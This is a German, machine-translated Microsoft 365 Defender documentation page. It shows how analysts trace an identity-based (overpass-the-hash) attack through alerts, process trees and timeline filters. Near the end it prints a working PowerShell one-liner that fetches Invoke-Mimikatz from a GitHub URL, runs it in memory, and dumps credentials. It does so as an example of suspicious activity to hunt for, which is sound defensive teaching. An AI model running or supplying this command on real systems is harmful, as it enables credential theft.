 ```yaml
---
title: Beispiel für einen identitätsbasierten Angriff
description: Gehen Sie durch eine Beispielanalyse eines identitätsbasierten Angriffs.
keywords: Vorfälle, Warnungen, untersuchen, Korrelation, Angriff, Computer, Geräte, Benutzer, Identitäten, Identität, Postfach, E-Mail, 365, microsoft, m365, Reaktion auf Vorfälle, Cyberangriff
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: de-DE
ms.lasthandoff: 04/30/2021
ms.locfileid: "52114678"
---
```

# <a name="example-of-an-identity-based-attack"></a>Beispiel für einen identitätsbasierten Angriff

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gilt für:**
- Microsoft 365 Defender

Microsoft Defender for Identity kann dabei helfen, böswillige Versuche zu erkennen, Identitäten in Ihrer Organisation zu schädlich zu machen. Da Defender for Identity in Microsoft 365 Defender integriert ist, können Sicherheitsanalysten Einblick in Bedrohungen von Defender for Identity erhalten, z. B. mutmaßliche Netlogon-Rechteerweiterungsversuche.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysieren des Angriffs in Microsoft Defender for Identity

Microsoft 365 Defender ermöglicht Es Analysten, Warnungen nach Erkennungsquelle auf der Registerkarte **Warnungen** auf der Seite Vorfälle zu filtern. Im folgenden Beispiel wird die Erkennungsquelle nach **Defender for Identity gefiltert.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Beispiel für das Filtern der Erkennungsquelle für Defender for Identity":::

Wenn Sie **die Warnung für mutmaßliche Überführungen im** Hash auswählen, wird eine Seite in Microsoft Cloud App Security angezeigt, auf der ausführlichere Informationen angezeigt werden. Sie können immer mehr über eine Warnung oder einen Angriff erfahren, [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) indem Sie **Weitere** Informationen zu diesem Warnungstyp auswählen, um eine Beschreibung des Angriffs sowie Korrekturvorschläge zu lesen.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Beispiel für eine mutmaßliche Benachrichtigung über die Überführung des Hashangriffs"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Untersuchen desselben Angriffs in Microsoft Defender for Endpoint

Alternativ kann ein Analyst Defender for Endpoint verwenden, um mehr über die Aktivität auf einem Endpunkt zu erfahren. Wählen Sie den Vorfall aus der Warteschleife aus, und wählen Sie dann die Registerkarte **Warnungen** aus. Von hier aus können sie auch die Erkennungsquelle identifizieren. Eine Erkennungsquelle, die als EDR bezeichnet wird, steht für Endpoint Detection and Response, also Defender for Endpoint. Hier wählt der Analyst eine warnung aus, die von einem EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Beispiel für eine Endpunkterkennung und -antwort in Defender for Endpoint"::: 

Auf der Warnungsseite werden verschiedene relevante Informationen angezeigt, z. B. der Name des betroffenen Geräts, der Benutzername, der Status der automatischen Untersuchung und die Warnungsdetails. Der Warnungsstory zeigt eine visuelle Darstellung der Prozessstruktur. Die Prozessstruktur ist eine hierarchische Darstellung von übergeordneten und untergeordneten Prozessen im Zusammenhang mit der Warnung.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Beispiel für eine Benachrichtigungsprozessstruktur in Defender for Endpoint"::: 

Jeder Prozess kann erweitert werden, um weitere Details anzuzeigen. Details, die ein Analyst sehen kann, sind die tatsächlichen Befehle, die als Teil eines bösartigen Skripts eingegeben wurden, ip-Adressen für ausgehende Verbindungen und andere nützliche Informationen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Beispiel für Prozessdetails in Defender for Endpoint":::
 
Wenn Sie **in der Zeitachse anzeigen** auswählen, kann ein Analyst einen Drilldown noch weiter gehen, um den genauen Zeitpunkt des Kompromisses zu ermitteln. 

Microsoft Defender for Endpoint kann viele schädliche Dateien und Skripts erkennen. Aufgrund vieler legitimer Verwendungen für ausgehende Verbindungen, PowerShell und Befehlszeilenaktivitäten würden einige Aktivitäten jedoch als gutartig angesehen, bis eine schädliche Datei oder Aktivität erstellt wird. Daher hilft die Verwendung der Zeitachse Analysten, die Warnung in den Kontext mit der umgebenden Aktivität zu setzen, um die ursprüngliche Quelle oder den Zeitpunkt des Angriffs zu bestimmen, die andernfalls durch allgemeine Dateisystem- und Benutzeraktivitäten verdeckt werden. 

Zu diesem Zeitpunkt würde ein Analyst zum Zeitpunkt der Warnungserkennung (in Rot) beginnen und einen Bildlauf nach unten durchführen, um zu bestimmen, wann die ursprüngliche Aktivität, die zu den schädlichen Aktivitäten führte, tatsächlich gestartet wurde. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Beispiel für das Starten zum Zeitpunkt der Warnungserkennung"::: 

Es ist wichtig, allgemeine Aktivitäten wie Windows Updateverbindungen, Windows vertrauenswürdigen Softwareaktivierungsverkehr, andere häufige Verbindungen zu Microsoft-Websites, Internetaktivitäten von Drittanbietern, Microsoft Endpoint Configuration Manager-Aktivitäten und andere gutartige Aktivitäten von verdächtigen Aktivitäten zu verstehen und zu unterscheiden. Eine Möglichkeit dazu ist die Verwendung von Zeitachsenfiltern. Es gibt viele Filter, die bestimmte Aktivitäten hervorheben können, während alles herausfiltert wird, was der Analyst nicht anzeigen möchte. 

In der folgenden Abbildung hat der Analytiker gefiltert, um nur Netzwerk- und Prozessereignisse anzeigen zu können. Auf diese Weise kann der Analyst die Netzwerkverbindungen und Prozesse sehen, die das Ereignis umgeben, Editor eine Verbindung mit einer IP-Adresse hergestellt hat, die wir auch in der Prozessstruktur gesehen haben. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Beispiel, wie Editor zum Herstellen einer schädlichen ausgehenden Verbindung verwendet wurde"::: 

In diesem speziellen Ereignis wurde Editor verwendet, um eine schädliche ausgehende Verbindung herzustellen. Häufig verwenden Angreifer jedoch einfach iexplorer.exe, um Verbindungen zum Herunterladen einer schädlichen Nutzlast herzustellen, da normalerweise iexplorer.exe Prozesse als reguläre Webbrowseraktivitäten angesehen werden.

Ein weiteres Element, nach dem sie in der Zeitachse suchen sollten, wäre die Verwendung von PowerShell für ausgehende Verbindungen. Der Analyst würde nach erfolgreichen PowerShell-Verbindungen mit Befehlen suchen, z. B. gefolgt von einer ausgehenden Verbindung zu einer Website, die `IEX (New-Object Net.Webclient)` eine schädliche Datei hosten. 

Im folgenden Beispiel wurde PowerShell zum Herunterladen und Ausführen von Mimikatz von einer Website verwendet:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Ein Analytiker kann schnell nach Schlüsselwörtern suchen, indem er das Schlüsselwort in der Suchleiste eintippt, um nur ereignisse anzeigen zu können, die mit PowerShell erstellt wurden. 

## <a name="next-step"></a>Nächster Schritt

Weitere Informationen finden Sie unter Phishing-Untersuchungspfad. [](first-incident-path-phishing.md)

## <a name="see-also"></a>Siehe auch

- [Übersicht über Vorfälle](incidents-overview.md)
- [Verwalten von Vorfällen](manage-incidents.md)
- [Analysieren von Vorfällen](investigate-incidents.md)
